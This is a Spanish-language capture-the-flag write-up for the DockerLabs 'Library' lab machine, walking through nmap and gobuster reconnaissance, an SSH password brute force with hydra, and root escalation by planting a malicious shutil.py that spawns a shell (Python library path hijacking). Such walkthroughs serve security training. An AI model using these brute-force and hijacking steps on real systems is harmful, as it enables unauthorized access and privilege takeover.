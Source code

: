 # Máquina Library

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

En el puerto 80 nos encontramos con la página por defecto de **apache**.
Aplicamos **Fuzzing** con **gobuster**:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html,php.bak
-------------------------------------------------------------------------
/index.php            (Status: 200) [Size: 26]
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 301) [Size: 313]
/server-status        (Status: 403) [Size: 275] 
```

Encontramos un **index.php** un poco extraño que nos proporciona una cadena de caracteres:

![Pasted image 20240512222036](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/71132b41-7738-4d9b-a760-32a6ed11e477)

```
JIFGHDS87GYDFIGD
```

--------------
## Explotación

Aplicamos fuerza bruta con **hydra**. Para una lista de usuarios, probaremos la cadena anterior como contraseña de estos usuarios:

```shell
hydra -L /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2 -t 4 -I
----------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: carlos   password: JIFGHDS87GYDFIGD
```

Nos conectamos con el user **carlos**:

```shell
ssh carlos@172.17.0.2
```

Estamos dentro !

------------------------------
## Escalada de privilegios

```shell
sudo -l
--------------------
User carlos may run the following commands on 415aa702590c:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

![Pasted image 20240512223354](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/9a2b18cc-31df-47b7-8315-d755fad04535)

Vemos que podemos ejecutar un script de **python** como el usuario **root** que está utilizando la librería **shutil** sobre la que posiblemente podamos aplicar un **Library Path Hijacking**:
Creamos en el directorio **opt** una librería maliciosa para que el script vaya a buscar nuestra librería falsa antes que la original.

```shell
touch shutil.py
```

Contenido de **shutil.py**:

```python
import os
os.system("bash")
```

Ejecutamos el script:

```shell
sudo /usr/bin/python3 /opt/script.py
```

```shell
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximos en el sistema !
